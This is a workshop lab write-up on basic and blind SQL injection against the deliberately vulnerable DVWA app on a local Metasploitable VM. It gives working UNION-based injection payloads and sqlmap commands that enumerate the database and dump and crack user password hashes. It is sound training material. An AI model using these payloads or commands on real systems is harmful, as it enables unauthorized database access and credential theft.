

# Workshop

## **1) Basic SQL Injection**

Set up Kali VM

set up Metasploitable VM 

set to same virtual network as Kali VM 

(switch both to same networks before powering on)

Get IP address of Metasploitable VM



visit webpage of Metasploitable VM through ip address 


click on DVWA

login using credentials ‘admin’ and ‘password’


Go to ‘DVWA Security’ tab

set the security to ‘low’ and submit


take a look at this webpage (sqli bible):

[https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

view source on SQL Injection page to view source code


Notice there is no input validation or sanitization to prevent certain combinations of letters and symbols being entered.

This means that you can manipulate the value of ‘$id’ and inject malicious SQL code.

(note: the key for # on Kali is £ on the keyboard)

If the ID of 1 is entered, it returns the info of the user who’s id = 1


the query executed in the database when this is entered is:

```jsx
1' OR '1'='1'#
```

this returns all users where 1=1 (where true)


In the MySQL documentation: [https://dev.mysql.com/doc/refman/8.4/en/information-schema.html](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html)

it reveals that there is a table called ‘information_schema’ which stores information about the database containing the ‘users’ table. This will give us an idea for where to find passwords.

Using the information we have on ‘information_schema’, we can query to find the column names where the table name is ‘users’

```jsx
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
```

Using union allows you to select multiple parameters 

Use the # character to end query 


We now know there are columns called ‘user’ and ‘password’ in the users table

This query selects the information from there columns in the table

```jsx
'UNION SELECT user, password FROM users #
```

It returns the username and hashed password from the users table


Completed. Yippee. <3

## **2) Blind SQL Injection**

For blind SQL Injection we need to use Burpsuite.

BEFORE opening Burpsuite, we need to configure a proxy with Burpsuite in Firefox:

Click the drop down menu in the top-right corner of Firefox and click on settings.


In the search bar search for ‘socks’ and click the top result.


Switch to manual proxy configuration

set the HTTP Proxy to ‘127.0.0.1’ (localhost)

set the port to ‘8080’

select SOCKS_v5 

click ‘OK’


Open up Burpsuite and select yes/okay to all popups except for the update one.

When you want to capture web requests from Firefox, go to the Proxy tab and turn Intercept on.


Enter 2 into the User ID box and press submit


Burpsuite will capture this request.

(note: the request will not be successfully submitted until you press ‘forward’)


copy the cookie and session identifiers to a separate text file


after clicking forward go back to Firefox and copy the URL to the same text file 


Now we use sqlmap with these parameters (swap ip address and session id):

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e"
```

This will check if the GET parameter ‘id’ is dynamic, meaning it can be manipulated.


The terminal output confirms that the GET parameter ‘id’ is vulnerable to both SQL Injection and time-based blind injection.

The output also specifies that the website is running Apache 2.2.8 and that the back-end Database Management System (DBMS) is MySQL.

(note: to bypass any interactive prompts, add ‘—batch’ option to query)

Next we enumerate the available database schemas:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --schema --batch
```

This retrieves database information from multiple tables found but the ones we are interested in are: ‘dvwa’ and ‘information_schema’ which was mentioned perviously.


To retrieve the tables from the DVWA database:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" -D dvwa --tables
```

This returns two tables- ‘guestbook’ and ‘users’


Since we are looking for usernames and passwords, we are interested in the ‘users’ table.

To determine the columns in the ‘users’ table we specify that we want columns, use -T to specify the table as ‘users’:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --columns -T users --batch
```

This identifies 6 columns inside the ‘users’ table.


With this information we can now dump the usernames and passwords:

```jsx
sqlmap -u "http://192.168.4.150/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=f1cf5e9f7d5b9dd272dc13885cc2501e" --dump -T users --batch
```

This returns all the information from the ‘users’ table.

sqlmap performs a dictionary-based attack to crack the passwords retrieved from the dump.


Completed. Yippee. <3